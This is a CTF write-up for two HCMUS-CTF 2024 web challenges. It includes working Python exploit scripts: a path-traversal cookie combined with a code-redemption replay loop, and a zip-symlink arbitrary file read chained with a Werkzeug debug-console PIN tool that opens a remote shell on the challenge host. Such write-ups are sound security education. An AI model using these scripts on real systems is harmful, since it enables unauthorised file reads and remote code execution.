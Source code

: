 ```yaml
---
title: HCMUS-CTF(Qualification) 2024 Writeup
published: 2024-12-01
description: 'Writeup for HCMUS-CTF 2024'
image: ''
tags: [web, CTF, writeup]
category: 'writeup'
draft: false 
lang: ''
---
```


## Web
### BP Airdrop
**Description**
A free airdrop website for everyone! Come and get your free BP!

**Analyze**
When I read the source code I come across this `let file = __dirname + '/../data/account/' + username + '.json';`
So I think to myself, why the website just let me login with any username and no password? Is that the hint? 

Then I try to path traversal with username = "../logs". Then I don't know what to do next :)). It is kind of a lucky challenge for me. I try to fucking around with the web application and see this weird behaviour:

1. Redeem the code "wqry-pmpo-tzve-mbk3"
2. Go to /api/logs
3. Go to /redeem and redeem the same code again, get extra balance
4. Loop 1000 times to get the flag =))

Then I write the exploit script as fast as I could and don't even look back and understand why because my team is in a rush, maybe in the next day I will look at it again.
**Exploit script**
```
import requests
import time
url1 = "http://chall.blackpinker.com:33415/api/logs"

cookies = {
    "username": "Li4vbG9n",
}

url2 = "http://chall.blackpinker.com:33415/redeem"
data = {
    "airdropCode":"wqry-pmpo-tzve-mbk3"    
}


for i in range(0, 1000):
    responseGet = requests.get(url1, cookies=cookies)
    responsePost = requests.post(url2, cookies=cookies, data=data)
    if(i % 10 == 0):
        time.sleep(1)
```

**Flag**: HCMUS-CTF{5trIct_eqU@l!Ty_!SN't_!T_101193d7181cc883}
Look likes it related to strict equality , hmm ?
### FlashyZ
**Description**
A simple web service which will unzip your files in a flash!

Hint: Flask debug is not good for production

Hint 2: Do you know about symlink?

**Analyze**
The hint has help my team a lot, with the hint my team is able to find 3 links:
1. https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
2. https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload
3. https://github.com/Ruulian/wconsole_extractor

The first link basically said when flask app is in debug mode, we can get RCE but with a condition: a function to read arbitrary file on the server. If that happen, we can use the tool in the 3rd link to automatically exploit the server and get the RCE.

So I try to find way to get the content of arbitary file => Which is the tips in the second link: Upload a zip file that contain symlinks to the target file on the server so when the server unzip it, we can read the content of the symlinks.

In the process of use the tool in 3rd link, I came across some bug that require me to manually edit the source code of the tool, then I realized I have to specify the python and werkzeug version in the tool's source code

```
self.python_version = "3.10.15"
self.werkzeug_version = "3.1.3"
```

Here are the exploit script:
```
import os
import zipfile
import requests
from bs4 import BeautifulSoup
import re

SYMLINK_PATH = "symindex.txt"
ZIP_FILENAME = "test.zip"
UPLOAD_URL = "http://chall.blackpinker.com:33697/upload"  
def upload_file():
    try:
        with open(ZIP_FILENAME, 'rb') as f:
            files = {'file': (ZIP_FILENAME, f)}
            response = requests.post(UPLOAD_URL, files=files)
            # print(response.text)
            soup = BeautifulSoup(response.text, 'html.parser')
            link = soup.find('a', href=True)
            
            if link:
                href = link['href']
                print(f"Full link: {href}")
                
                match = re.search(r'/list/([a-f0-9\-]+)', href)
                if match:
                    uuid = match.group(1)
                    print(f"Extracted UUID: {uuid}")
                    return uuid
                else:
                    print("No UUID found in the link.")
            else:
                print("No link found in the response.")
    except Exception as e:
        print(f"Error uploading file: {e}")
        raise

from main import WConsoleExtractor, info

def leak_function(filename) -> str:
    filename = "../../.." + filename
    print(filename)
    if os.path.exists(SYMLINK_PATH):
        os.remove(SYMLINK_PATH)
    if os.path.exists(ZIP_FILENAME):
        os.remove(ZIP_FILENAME)
    os.system(f"rm symindex.txt; sudo ln -s {filename} symindex.txt")
    os.system(f"sudo zip --symlinks test.zip symindex.txt")
    upload_file()
    uuid = upload_file()
    r = requests.get(f"http://chall.blackpinker.com:33697/view/{uuid}/symindex.txt")
    if r.status_code == 200 and "<!DOCTYPE html>" not in r.text:
        return r.text
    else:
        return ""

# print(leak_function("/etc/machine-id"))
extractor = WConsoleExtractor(
    target="http://chall.blackpinker.com:33697",
    leak_function=leak_function,
)

info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
        

```

**Flag**: HCMUS-CTF{symply_unzip2rce_23fe1ecf18f7617f}

